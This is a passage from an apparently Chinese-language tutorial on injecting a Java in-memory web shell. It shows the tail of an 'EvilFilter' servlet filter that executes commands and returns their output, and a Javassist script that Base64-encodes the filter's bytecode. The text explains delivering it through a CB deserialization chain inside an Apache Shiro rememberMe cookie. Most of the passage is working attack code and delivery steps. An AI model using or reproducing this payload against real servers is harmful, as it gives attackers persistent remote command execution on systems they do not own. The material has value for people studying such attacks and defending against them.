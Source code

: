 ```plain
        Process process = Runtime.getRuntime().exec(cmd);
        InputStream inputStream = process.getInputStream();
        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(inputStream));
        String line;
        StringBuilder stringBuilder = new StringBuilder();
        while ((line = reader.readLine()) != null){
            stringBuilder.append(line + "\n");
        }
        ServletOutputStream servletOutputStream = servletResponse.getOutputStream();
        servletOutputStream.write(stringBuilder.toString().getBytes());
        servletOutputStream.flush();
        servletOutputStream.close();
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {
    }
}
```

然后准备一个可以对内存马进行编码的脚本

```plain
public class Base64Client {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(EvilFilter.class.getName());
        byte[] payloads = clazz.toBytecode();

        byte[] classData = java.util.Base64.getEncoder().encode(payloads);
        System.out.println(new String(classData));
    }
}
```

这里需要注意一点，经过实测 classData 当中的内存马字节流的 base64 编码字符串还要进行 url 编码才能正常运作

效果如下（使用 CB 链装载 MyclassLoader，放在 rememberme 当中。使用市面上常用的关于 shiro 攻击的 rememberme 加密脚本即可）

[![](assets/1710992966-d6de1eae0fdb34fbb005a03783d92e07.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240315152727-79baa77c-e29d-1.png)

